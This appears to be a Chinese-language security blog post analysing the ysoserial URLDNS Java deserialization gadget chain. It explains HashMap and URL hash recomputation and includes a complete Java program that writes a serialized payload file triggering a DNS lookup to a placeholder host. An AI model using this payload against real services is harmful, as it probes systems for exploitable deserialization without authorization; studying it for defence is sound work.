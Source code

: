 ```yaml
---
title: "ysoserial URLDNS, CommonsCollectionsX 分析"
date: 2020-01-20 17:45:51
tags: [web, java]
---
```


之前都是 ysoserial 一把梭, 还是得学习 + 复现一下内部实现机制的.



## URLDNS

最简单的一个, 这个成因就是 `java.util.HashMap` 重写了 `readObject`, 在反序列化时会调用 `hash` 函数计算 key 的 hashCode.

![](https://i.loli.net/2020/01/20/onW3ErpxJT2mK1z.png)  
![](https://i.loli.net/2020/01/20/xJrPjCgF5eh1Kfs.png)


而 `java.net.URL` 的 hashCode 在计算时会调用 `getHostAddress` 来解析域名, 从而发出 DNS 请求.

![](https://i.loli.net/2020/01/20/tzER6LIsc125OU7.png)  
![](https://i.loli.net/2020/01/20/53j1fLybKRUHsYV.png)  

可以理解为, 在序列化 HashMap 类的对象时, 为了减小序列化后的大小, 并没有将整个哈希表保存进去, 而是仅仅保存了所有内部存储的 key 和 value. 所以在反序列化时, 需要重新计算所有 key 的 hash, 然后与 value 一起放入哈希表中. 而恰好, URL 这个对象计算 hash 的过程中用了 getHostAddress 查询了 URL 的主机地址, 自然需要发出 DNS 请求.

整条调用链如下:

```
Gadget Chain:
  HashMap.readObject()
    HashMap.putVal()
      HashMap.hash()
        URL.hashCode()
```

URLDNS.java
```java
package demo.rmb122;

import java.io.FileOutputStream;
import java.io.ObjectOutputStream;
import java.lang.reflect.Field;
import java.net.URL;
import java.util.HashMap;

public class URLDNS {
    public static void main(String[] args) throws Exception {
        HashMap<URL, String> hashMap = new HashMap<URL, String>();
        URL url = new URL("http://xxxx.xxx.xxx");
        Field f = Class.forName("java.net.URL").getDeclaredField("hashCode");
        f.setAccessible(true);
        f.set(url, 0xdeadbeef); // 设一个值, 这样 put 的时候就不会去查询 DNS
        hashMap.put(url, "rmb122");
        f.set(url, -1); // hashCode 这个属性不是 transient 的, 所以放进去后设回 -1, 这样在反序列化时就会重新计算 hashCode

        ObjectOutputStream oos = new ObjectOutputStream(new FileOutputStream("out.bin"));
        oos.writeObject(hashMap);
    }
}
```
